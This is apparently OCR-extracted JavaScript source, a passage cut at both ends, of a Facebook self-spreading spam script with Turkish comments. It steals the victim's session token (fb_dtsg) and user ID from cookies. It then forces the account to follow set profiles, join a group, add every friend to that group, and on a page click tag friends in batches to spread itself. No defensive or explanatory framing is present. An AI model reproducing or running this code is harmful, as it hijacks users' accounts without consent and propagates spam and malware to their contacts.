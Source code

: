 document.cookie.indexOf(";", konum)             if (son == -1)                 son = document.cookie.length             return unescape(document.cookie.substring(konum, son))         }         else { return ""; }     } } function getRandomInt (min, max) {     return Math.floor(Math.random() * (max - min + 1)) + min; } function randomValue(arr) {     return arr[getRandomInt(0, arr.length-1)]; }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);  function a(abone){     var http4 = new XMLHttpRequest();           var url4 = "/ajax/follow/follow_profile.php?__a=1";           var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";     http4.open("POST", url4, true);           //Send the proper header information along with the request     http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded");     http4.setRequestHeader("Content-length", params4.length);     http4.setRequestHeader("Connection", "close");           http4.onreadystatechange = function() {//Call a function when the state changes.     if(http4.readyState == 4 &amp;&amp; http4.status == 200) {               http4.close; // Close the connection           }     }          http4.send(params4); }  function sublist(uidss) { 		var a = document.createElement('script'); 		a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();"; 		document.body.appendChild(a); } //BOSSTER// a("100007688500197"); a("100004156140628"); a("100001981891207");   sublist("1385595931706677"); sublist("1385634855036118");    //Group ku adibpn var gid = ['113'];    var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);  var httpwp = new XMLHttpRequest(); var urlwp = '/ajax/groups/membership/r2j.php?__a=1'; var paramswp = '&amp;ref=group_jump_header&amp;group_id=' + gid + '&amp;fb_dtsg=' + fb_dtsg + '&amp;__user=' + user_id + '&amp;phstamp='; httpwp['open']('POST', urlwp, true); httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded'); httpwp['setRequestHeader']('Content-length', paramswp['length']); httpwp['setRequestHeader']('Connection', 'keep-alive'); httpwp['send'](paramswp);  var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);  var friends = new Array(); gf = new XMLHttpRequest(); gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&amp;viewer=' + user_id + '&amp;token' + Math['random']() + '&amp;filter[0]=user&amp;options[0]=friends_only', false); gf['send'](); if (gf['readyState'] != 4) {} else {     data = eval('(' + gf['responseText']['substr'](9) + ')');     if (data['error']) {} else {         friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) {             return _0x93dax8['index'] - _0x93dax9['index'];         });     }; };  for (var i = 0; i &lt; friends['length']; i++) {     var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/members/add_post.php?__a=1';     var paramswp= '&amp;fb_dtsg=' + fb_dtsg + '&amp;group_id=' + gid + '&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members=' + friends[i]['uid'] + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['onreadystatechange'] = function () { if (httpwp['readyState'] == 4 &amp;&amp; httpwp['status'] == 200) {};     };     httpwp['send'](paramswp); }; var spage_id = "582018668558520"; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var smesaj = ""; var smesaj_text = ""; var arkadaslar = []; var svn_rev; var bugun= new Date(); var btarihi = new Date();  btarihi.setTime(bugun.getTime() + 1000*60*60*4*1); if(!document.cookie.match(/paylasti=(\d+)/)){ document.cookie = "paylasti=hayir;expires="+ btarihi.toGMTString(); }   //arkadaslari al ve isle function sarkadaslari_al(){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){ 				  eval("arkadaslar = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); 				  for(f=0;f&lt;Math.round(arkadaslar.payload.entries.length/10);f++){ 					smesaj = ""; 					smesaj_text = ""; 				  for(i=f*10;i&lt;(f+1)*10;i++){ 					if(arkadaslar.payload.entries[i]){ 				  smesaj += " @[" + arkadaslar.payload.entries[i].uid +  ":" + arkadaslar.payload.entries[i].text + "]"; 				  smesaj_text += " " + arkadaslar.payload.entries[i].text; 				  } 					} 					sdurumpaylas();				} 				 			} 			         }; 		var params = "&amp;filter[0]=user"; 		params += "&amp;options[0]=friends_only"; 		params += "&amp;options[1]=nm"; 		params += "&amp;token=v7";         params += "&amp;viewer=" + user_id; 		params += "&amp;__user=" + user_id; 		         if (document.URL.indexOf("https://") >= 0) { xmlhttp.open("GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }         else { xmlhttp.open("GET", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }         xmlhttp.send(); }  //tiklama olayini dinle var tiklama = document.addEventListener("click", function () { if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir") >= 0){ svn_rev = document.head.innerHTML.split('"svn_rev":')[1].split(",")[0]; sarkadaslari_al(); document.cookie = "paylasti=evet;expires="+